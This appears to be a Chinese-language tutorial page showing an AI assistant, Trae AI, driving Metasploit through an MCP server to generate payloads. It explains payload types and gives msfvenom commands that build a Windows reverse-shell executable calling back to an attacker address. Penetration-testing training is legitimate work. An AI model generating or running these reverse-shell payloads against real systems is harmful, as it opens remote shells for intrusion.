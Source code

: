 # Payload 生成範例 - Trae AI + Metasploit MCP

本文檔展示如何透過 Trae AI 使用 Metasploit 生成和配置各種類型的 payload。

⚠️ **重要提醒：所有 payload 僅限於授權的滲透測試環境中使用**

## 基礎 Payload 概念

### Payload 類型說明

**用戶提問：**
```
解釋不同類型的 Metasploit payload
```

**Trae AI 回應：**

1. **Singles**：獨立的 payload，包含完整功能
2. **Stagers**：小型 payload，用於下載更大的 stage
3. **Stages**：由 stager 下載的主要 payload 功能

**常見 Payload 分類：**
- `windows/shell_reverse_tcp` - 基本 shell 連接
- `windows/meterpreter/reverse_tcp` - 功能豐富的 Meterpreter
- `linux/x86/shell/reverse_tcp` - Linux shell 連接
- `php/meterpreter_reverse_tcp` - Web 應用 payload

## Windows Payload 生成

### 1. 基礎 Windows Shell Payload

**用戶提問：**
```
生成一個基本的 Windows reverse shell payload
```

**Trae AI 操作流程：**
```
# 使用 msfvenom 生成 payload
use payload/windows/shell_reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
generate -f exe -o /tmp/shell.exe

# 或者直接使用 msfvenom 命令
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

**預期結果：**
- 生成 shell.exe 文件
- 文件大小約 73KB
- 連接到指定的 IP 和端口
